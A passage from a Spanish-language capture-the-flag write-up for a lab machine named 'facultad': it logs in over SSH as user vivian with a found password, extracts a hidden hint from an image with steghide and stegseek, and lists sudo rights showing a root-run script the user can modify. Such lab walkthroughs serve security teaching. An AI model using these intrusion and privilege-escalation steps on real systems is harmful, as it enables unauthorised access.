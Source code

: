 Parece ser una contraseña y el archivo tiene el nombre del **usuario vivian**, entonces, es posible que sea su contraseña.

Comprobémoslo desde nuestra sesión actual o entrando al **servicio SSH** con ese usuario y contraseña:
```bash
ssh vivian@192.168.100.60
vivian@192.168.100.60's password: 
Linux TheHackersLabs-facultad.thl 6.1.0-26-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.112-1 (2024-09-30) x86_64
...
Last login: Mon Jan 27 22:29:26 2025
$ whoami
vivian
$ bash -i
vivian@TheHackersLabs-facultad:~$
```
Estamos dentro y ahora somos **vivian**.

Como curiosidad, cuando aplicamos **Fuzzing**, vimos la existencia del directorio `/images` que contiene una imagen que puedes descargar.

Pues si analizamos dicha imagen y utilizamos **steghide o stegcracker**, encontraremos un archivo de texto oculto:
```bash
# Usando steghide (No tiene ninguna contraseña)
steghide extract -sf facultad.jpg
Anotar salvoconducto: 
anot� los datos extra�dos e/"mensaje.txt".

# Usando stegcracker
stegseek facultad.jpg /usr/share/wordlists/rockyou.txt
StegSeek 0.6 - https://github.com/RickdeJager/StegSeek

[i] Found passphrase: ""
[i] Original filename: "mensaje.txt".
[i] Extracting to "facultad.jpg.out".
```

Al leerlo, nos daba una pista de dónde encontrar la contraseña del **usuario vivian**:
```bash
cat mensaje.txt
Hola Gabri, 
se me ha olvidado la contraseña creo que te la pasé y la tienes en tu correo.
Vivian
```
Continuemos.

<br>

<h2 id="Script">Escalando Privilegios Abusando de Permisos Sudoers sobre Script de Usuario vivian</h2>

Como tenemos la contraseña de **vivian**, podemos ver si tiene algún privilegio:
```bash
vivian@TheHackersLabs-facultad:~$ sudo -l
sudo: unable to resolve host TheHackersLabs-facultad.thl: Nombre o servicio desconocido
Matching Defaults entries for vivian on TheHackersLabs-facultad:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User vivian may run the following commands on TheHackersLabs-facultad:
    (ALL) NOPASSWD: /opt/vivian/script.sh
```
Resulta que ese simple script tiene privilegios totales, ósea, que podemos modificarlo para que realice acciones como si fuera el **Root**.

